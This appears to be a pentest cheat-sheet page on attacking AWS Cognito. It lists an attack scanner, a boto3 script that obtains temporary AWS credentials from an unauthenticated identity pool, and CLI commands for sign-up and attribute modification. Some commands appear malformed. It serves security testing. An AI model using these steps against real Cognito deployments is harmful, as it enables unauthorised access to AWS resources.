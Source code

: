 # AWS - Service - Cognito

AWS Cognito is an AWS-managed service for authentication, authorization, and user management.

1. A user signs in through Cognito User Pools (authentication) or via a federated IdP (Google, Facebook, SAML, etc.).
2. Cognito Identity Pools can then exchange this identity for temporary AWS credentials (from STS — Security Token Service).
3. These credentials (Access Key ID, Secret Access Key, and Session Token) let the app directly call AWS services (e.g., S3, DynamoDB, API Gateway) with limited IAM roles/policies.

## Tools

* [Cognito Scanner](https://github.com/padok-team/cognito-scanner) - A CLI tool for executing attacks on cognito such as *Unwanted account creation*, *Account Oracle* and *Identity Pool escalation*.

    ```ps1
    # Installation
    $ pip install cognito-scanner
    # Usage
    $ cognito-scanner --help
    # Get information about how to use the unwanted account creation script
    $ cognito-scanner account-creation --help
    # For more details go to https://github.com/padok-team/cognito-scanner
    ```

## Identity Pool ID

* **User Pools** : User pools allow sign-in and sign-up functionality
* **Identity Pools** : Identity pools allow authenticated and unauthenticated users to access AWS resources using temporary credentials

Once you have the Cognito Identity Pool Id token, you can proceed further and fetch Temporary AWS Credentials for an unauthenticated role using the identified tokens.

```py
import boto3

region='us-east-1'
identity_pool='us-east-1:5280c436-2198-2b5a-b87c-9f54094x8at9'

client = boto3.client('cognito-identity',region_name=region)
_id = client.get_id(IdentityPoolId=identity_pool)
_id = _id['IdentityId']

credentials = client.get_credentials_for_identity(IdentityId=_id)
access_key = credentials['Credentials']['AccessKeyId']
secret_key = credentials['Credentials']['SecretKey']
session_token = credentials['Credentials']['SessionToken']
identity_id = credentials['IdentityId']
print("Access Key: " + access_key)
print("Secret Key: " + secret_key)
print("Session Token: " + session_token)
print("Identity Id: " + identity_id)
```

## AWS Cognito Commands

### Get User Information

```ps1
aws cognito-idp get-user --access-token $(cat access_token.txt)
```

### Admin Authentication

```ps1
aws cognito-idp admin-initiate-auth --access-token $(cat access_token)
```

### List User Groups

```ps1
aws cognito-idp admin-list-groups-for-user --username user.name@email.com --user-pool-id "Group-Name"
```

### Sign up

```ps1
aws cognito-idp sign-up --client-id <client-id> --username <username> --password <password>
```

### Modify Attributes

```ps1
aws cognito-idp update-user-attributes --access-token $(cat access_token) --user-attributes Name=<attribute>,Value=<value>
```

## References

* [Exploiting weak configurations in Amazon Cognito - Pankaj Mouriya - April 6, 2021](https://blog.appsecco.com/exploiting-weak-configurations-in-amazon-cognito-in-aws-471ce761963)
